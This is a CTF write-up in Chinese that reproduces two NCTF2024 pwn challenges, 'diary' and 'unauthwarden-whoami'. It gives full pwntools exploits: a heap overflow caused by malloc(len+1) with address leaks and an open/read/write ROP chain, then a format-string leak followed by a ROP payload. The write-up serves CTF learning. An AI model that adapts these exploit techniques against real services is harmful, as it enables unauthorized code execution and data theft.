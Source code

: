 # NCTF2024【复现】

注：由于本人实在太菜，因此没有做出任何题目，仅对所有赛题进行复现

## diary

是基于fork的server，因此不能采用system(/bin/sh);

**为什么交互式 Shell 会失败？**

- **文件描述符继承是关键：** 当孙子进程通过 `exec` 启动 `/bin/sh` 时，它**继承了创建它的进程（即原服务器子进程）的文件描述符**。
- **标准输入/输出/错误指向哪里？** 在典型的 `fork` 服务器子进程中，文件描述符 0 (标准输入 stdin), 1 (标准输出 stdout), 和 2 (标准错误 stderr) 通常都指向**子进程**用来与客户端通信的那个网络连接套接字 `conn_fd`。因为子进程是从父进程那里继承了这个 `conn_fd`，并且通常会用它来进行读写。
- 失败的原因：
  1. **`/bin/sh` 的感知：** 当 `/bin/sh` 启动时，它检查其标准输入输出。发现它们连接到一个套接字而不是一个终端(TTY/PTY)时，它可能不会进入完全的交互模式。
  2. **标准 I/O 缓冲：** 这是最常见的问题。当 `/bin/sh` (在孙子进程中) 向标准输出 (FD 1，指向 `conn_fd`) 写入数据时（比如命令提示符或命令执行结果），数据并不会立即通过网络发送。因为标准输出连接到套接字时，通常使用**全缓冲 (Full Buffering)**。数据会被暂存在内存缓冲区里，直到缓冲区满了，或者 `/bin/sh` 进程显式地刷新缓冲区（`fflush`）或退出时，数据才会被真正写入 `conn_fd` 发送出去。这就导致了交互的延迟或完全不响应。标准输入也可能存在类似问题。
  3. **子进程可能提前关闭 FD：** 在某些服务器逻辑下，子进程可能在处理完合法请求（或者发生错误）后、但在 `system()` 被非预期地调用之前，就已经关闭了 `conn_fd`。这样，即使孙子进程启动了 `/bin/sh`，它的输入输出也无处可去。
  4. **`system()` 本身的机制：** 如前所述，`system()` 通过 `sh -c` 执行命令，这主要是为了执行单个命令并获取结果，而不是为了启动一个持久的交互式会话。

***另外地\***，在orw途中，由于标准输入0、标准输出1、标准错误2都被绑定在socket上面，因此如果直接打印到fd=0、1、2我们无法看见，最终做法是write(4,flag,len);，为什么呢？

程序fork时，父进程中已使用的 FD 有 0, 1, 2 (标准流) 和 3 (`listen_fd`)。因此，`accept()` 返回的**新的连接套接字 `conn_fd`** 得到的编号是 **4**，而子程序关闭listen_fd，因此编号为3的fd就空出来了作为之后open(flag)的fd，而write写向fd=4即socket我们就可以得到flag

![img](http://www.leidongzheng.com/wp-content/uploads/2025/04/图片-1024x600.png)

漏洞点在于malloc(len+1)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/04/图片-1-1024x490.png)

如果Len为0xffffffff的话malloc会malloc(0)，**而我们使用对应的Len进行堆溢出**

***堆地址：\***通过溢出一个0从而打印出堆地址。

***libc地址：\***通过申请一个0x2000000的堆块塞满bss和libc的地址，打印leak出libc

通过environ泄露栈地址，**environ是一个与栈有固定偏移的地址，可以绕过ASLR**

把chunk分配到栈，最后orw读取文件

```
┌──(kali㉿kali)-[~/Desktop/nctf]
└─$ cat exp       
from pwn import *
k = process('./pwn')
io = remote("127.0.0.1",9999)
libc = ELF('libc.so.6')
context(os='linux',arch='amd64')
def add(len,con):
    io.send(b'1')
    io.sendafter(b'Input length:\n',str(len).encode())
    io.sendlineafter(b'Input content:\n',con)
def dele(idx):
    io.send(b'2')
    io.sendafter(b'Input index:\n',str(idx).encode())
def edit(idx,con):
    io.send(b'3')
    io.sendafter(b'Input index:\n',str(idx).encode())
    io.sendlineafter(b'Input content:\n',con)
def show(idx):
    io.send(b'4')
    io.sendafter(b'Input index:\n',str(idx).encode())

add(0x80,b'a')
add(0xffffffff,b'\x00')
add(0x80,b'a')
add(0x80,b'a')
edit(1,b'a'*0x20)
show(2)
log.info("[*]overflow the \x00 to cover the pointer and then leak the address")
io.recvuntil(p64(0x21))
heap_base = u64(io.recv(8)) - 0x370
log.info("[*]heap addr : "+hex(heap_base))
dele(1)
add(0x2000000,b'a')
show(2)
io.recvuntil(p64(0x21))
libc_base = u64(io.recv(8)) - 0x7f6e3c800010 + 0x7f6e3ea00000
log.info("[*]libc addr : "+hex(libc_base))
environ = libc_base + 0x7f6e3ec0ad58 - 0x7f6e3ea00000
log.info("[*]envi addr : "+hex(environ))
dele(1)
add(0xffffffff,b'\x00')
edit(1,b'\x00'*0x18 + p64(0x21) + p64(environ) + p64(0x81))
show(2)
io.recvuntil(b'Content:\n')
stack_addr = u64(io.recv(8)) + 8 + 0x7ffd95677750 - 0x7ffd956779a8
log.info(hex(stack_addr)) 
#this stack addr is Menu function's ret addr
pop_rdi_ret = libc_base + 0x10f75b
pop_rsi_ret = libc_base + 0x10f759
#pop_rsi_pop_r12_ret
magic = libc_base + 0xb0133
#mov rdx,rbx; pop rbx; pop r12; pop rbp; retn
pop_rbx_ret = libc_base + 0x586e4
open = libc_base + libc.symbols['open']
write = libc_base + libc.symbols['write']
read = libc_base + libc.symbols['read']
edit(0,b'flag\x00\x00')
flag = heap_base + 0x2c0
ROP = p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_ret) + p64(0) + p64(0) + p64(open)
#OPEN_FUNC
ROP += p64(pop_rdi_ret) + p64(0x3) + p64(pop_rsi_ret) + p64(heap_base+0x50) + p64(0) + p64(pop_rbx_ret) + p64(0x30) + p64(magic) + p64(0x30) + p64(0) + p64(stack_addr+0x100) + p64(read)
ROP += p64(pop_rdi_ret) + p64(0x4) + p64(write)
print(hex(pop_rsi_ret))
edit(1,b'\x00'*0x18 + p64(0x21) + p64(stack_addr) + p64(0x101))
edit(2,ROP)
io.send(b'5')
io.interactive()
```

<img src="http://www.leidongzheng.com/wp-content/uploads/2025/04/图片-2-1024x421.png" alt="img" style="zoom:80%;" />

## unauthwarden-whoami



```
from pwn import *
env={'LD_LIBRARY_PATH': '/opt/intel/sgxsdk/lib64:$LD_LIBRARY_PATH'}
io = process('./test_app',env=env)
context(os = 'linux',arch = 'amd64',log_level='debug')
def register(usr,pwd):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def login(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def add(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def show(idx):
    io.recvuntil(b'>> ')
    io.send(b'2')
    io.sendafter(b'Enter record index (1-5): ',str(idx).encode())
def logout():
    io.recvuntil(b'>> ')
    io.send(b'6')
def send_seal(data):
    io.recvuntil(b'>> ')
    io.send(b'4')
    if io.recv(6) == b'Sealed':
        io.sendlineafter(b'to reject.\n', b'y')
    io.sendlineafter(b'to seal: ', str(len(data)).encode())
    for i in range(0, len(data), 0x100):
        io.sendafter(b'batch):', data[i: i + 0x100])
    io.sendlineafter(b'(y/n): ', 'y'.encode())
def show_seal():
    io.recvuntil(b'>> ')
    io.send(b'5')

register(b'%3$p',b'123')
login(b'%3$p',b'123')
io.recvuntil(b'back, ')
addr = int(io.recvuntil(b'\n',drop=True).decode(),16) - 0x2719f4
log.info(hex(addr))
#gdb.attach(io)
pop_rdi_ret = addr + 0x3e34
root_pwd = addr + 0x11c020
printf = addr + 0x10B3
ret = addr + 0x1052
gdb.attach(io)
send_seal(b'?' * 256 + b'!' * 0x8 + p64(pop_rdi_ret) + p64(root_pwd) + p64(ret) + p64(printf)+b'')

io.interactive() 
```

![image-20250410190057021](C:\Users\0629\AppData\Roaming\Typora\typora-user-images\image-20250410190057021.png)